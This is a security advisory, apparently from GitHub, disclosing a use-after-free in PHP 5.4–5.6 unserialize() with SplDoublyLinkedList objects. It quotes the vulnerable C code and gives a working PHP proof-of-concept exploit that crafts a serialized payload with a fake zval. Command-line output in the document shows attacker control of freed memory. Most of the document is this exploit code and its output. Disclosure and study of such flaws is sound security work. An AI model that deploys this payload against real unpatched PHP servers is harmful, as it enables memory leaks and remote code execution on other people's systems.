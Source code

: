 #Yet Another Use After Free Vulnerability in unserialize() with SplDoublyLinkedList
 
Taoguang Chen <[@chtg](http://github.com/chtg)> - Write Date: 2015.8.27 - Release Date: 2015.9.4
 
> A use-after-free vulnerability was discovered in unserialize() with SplDoublyLinkedList object's deserialization and crafted object's __wakeup() magic method that can be abused for leaking arbitrary memory blocks or execute arbitrary code remotely.

Affected Versions
------------
Affected is PHP 5.6 < 5.6.13  
Affected is PHP 5.5 < 5.5.29  
Affected is PHP 5.4 < 5.4.45

Credits
------------
This vulnerability was disclosed by Taoguang Chen.

Description
------------

```
	while(*p == ':') {
		++p;
		ALLOC_INIT_ZVAL(elem);
		if (!php_var_unserialize(&elem, &p, s + buf_len, &var_hash TSRMLS_CC)) {
			zval_ptr_dtor(&elem);
			goto error;
		}

		spl_ptr_llist_push(intern->llist, elem TSRMLS_CC);
	}
```

It has been demonstrated many times before that __wakeup() leads to ZVAL is freed from memory. However during deserialization will still allow to use R: or r: to set references to that already freed memory. It is possible to use-after-free attack and execute arbitrary code remotely.

Proof of Concept Exploit
------------
The PoC works on standard MacOSX 10.11 installation of PHP 5.6.12.

```
<?php

class obj {
	var $ryat;
	function __wakeup() {
		$this->ryat = 1;
	}
}

$fakezval = ptr2str(1122334455);
$fakezval .= ptr2str(0);
$fakezval .= "\x00\x00\x00\x00";
$fakezval .= "\x01";
$fakezval .= "\x00";
$fakezval .= "\x00\x00";

$inner = 'i:1234;:i:1;';
$exploit = 'a:5:{i:0;i:1;i:1;C:19:"SplDoublyLinkedList":'.strlen($inner).':{'.$inner.'}i:2;O:3:"obj":1:{s:4:"ryat";R:3;}i:3;a:1:{i:0;R:5;}i:4;s:'.strlen($fakezval).':"'.$fakezval.'";}';

$data = unserialize($exploit);

var_dump($data);

function ptr2str($ptr)
{
	$out = '';
	for ($i = 0; $i < 8; $i++) {
		$out .= chr($ptr & 0xff);
		$ptr >>= 8;
	}
	return $out;
}

?>
```

Test the PoC on the command line:

```
$ php uafpoc.php
array(5) {
  [0]=>
  int(1)
  [1]=>
  &int(1)
  [2]=>
  object(obj)#2 (1) {
    ["ryat"]=>
    &int(1)
  }
  [3]=>
  array(1) {
    [0]=>
    int(1122334455)  <===  so we can control the memory and create fake ZVAL :)
  }
  [4]=>
  string(24) "?v?B????"
}
```
